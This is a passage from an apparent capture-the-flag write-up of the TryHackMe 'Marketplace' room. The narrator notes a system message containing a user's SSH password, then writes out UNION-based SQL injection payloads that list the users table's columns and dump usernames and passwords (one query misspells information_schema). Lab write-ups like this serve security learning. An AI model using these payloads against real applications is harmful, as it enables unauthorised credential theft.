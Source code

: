 ![content-messages](/assets/img/tryhackme/marketplace/content-messages.png)

It seems that the user whose id is 1, is the system. The system sent a message to Jake, and the `message includes Jake's ssh password`. Let's keep this information in our pocket now. And let's go to the users table.

```
? user=0 UNION SELECT 1,group_concat(column_name),3,4 FROM information_scheam.columns WHERE table_name='users'-- 
```

![users](/assets/img/tryhackme/marketplace/users.png)

```
? user=0 UNION SELECT 1,group_concat(id,'~',username,'~',password),3,4 FROM users-- 
```
